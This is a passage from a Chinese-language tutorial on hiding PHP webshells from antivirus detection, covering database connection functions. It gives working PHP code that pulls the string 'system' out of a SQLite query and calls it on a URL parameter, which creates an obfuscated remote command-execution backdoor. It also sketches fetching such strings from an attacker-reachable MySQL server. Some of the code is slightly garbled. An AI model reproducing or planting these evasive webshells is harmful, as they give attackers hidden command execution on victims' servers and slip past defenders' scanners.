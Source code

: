 ##

## 6# 数据库连接函数

###

### 6.0 Tips

可以尝试通过读取数据库内的内容，来获取敏感关键词或者拿到执行命令的关键语句，就可以拼接到php中执行恶意的代码了。

###

### 6.1 Sqlite数据库

配合我上面写的 `file_put_contents()` 文件写入函数，先写入本地Sqlite文件然后读取敏感内容

  *   *   *   *   *   *   *   * 

    
    
    $path = "AabyssZG.db";$db = new PDO("sqlite:" . $path);//连接数据库后查询敏感关键词$sql_stmt = $db->prepare('select * from test where name="system"');$sql_stmt->execute();//提权敏感关键词并进行拼接$f = substr($sql_stmt->queryString, -7, 6);$f($_GET['aabyss']);       //system($_GET['aabyss']);

### 6.2 MySQL数据库

这里使用 `MySQLi()` 这个函数，其实PHP有很多MySQL连接函数，可自行尝试

然后通过这个函数，连接公网数据库（只要目标能出网），即可连接并获得敏感字符拼接到php中

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    function coon($sql) {    $mysqli = new MySQLi("localhost", "test", "test123", "test");    //默认的 MySQL的类，其属性与方法见手册    if ($mysqli - > connect_error) {        //connect_error为属性，报错        die("数据库连接失败：".$mysqli - > connect_errno. "--".$mysqli - > connect_error);        // connect_errno:错误编号    }    $mysqli - > select_db("test"); //选择数据库    // 返回值 $res 为资源类型（获取到结果的资源类型）    $res = $mysqli - > query($sql) or die($mysqli - > error);    //释放结果集，关闭连接    $mysqli - > close();}$sql = "select * from test where name LIKE 'system'";$arr = coon($sql);$res = array("data" => $arr);echo json_encode($res);

##

## 7# PHP过滤器

![](https://gitee.com/fuli009/images/raw/master/public/20230624181154.png)

#

# 三、Webshell免杀

##

## 学习后的免杀效果
